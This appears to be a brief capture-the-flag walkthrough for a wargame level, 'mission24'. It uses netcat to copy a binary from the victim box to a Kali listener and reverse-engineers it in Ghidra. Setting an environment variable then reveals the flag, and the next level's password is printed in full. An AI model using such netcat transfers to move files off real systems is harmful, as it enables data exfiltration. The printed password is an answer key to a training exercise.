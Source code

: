 **Victim(mission24)**

```
cd /home/mission24
ls
./bribe
```

**Kali**

```
nc -l -p 1234 > bribe
```

**Victim(mission24)**

```
nc -w 3 $KALI 1234 < bribe
```

In Ghidra we can we there is a environment variable called pocket that needs to be set, if it's set to money it will run the if statement to show the flag

**Kali**

```
ghidra
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(mission24)**

```
export pocket=money
./bribe

su mission25
Password: mission25{61b93637881c87c71f220033b22a921b}
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Most commands don't work, I couldn't ls or cat files
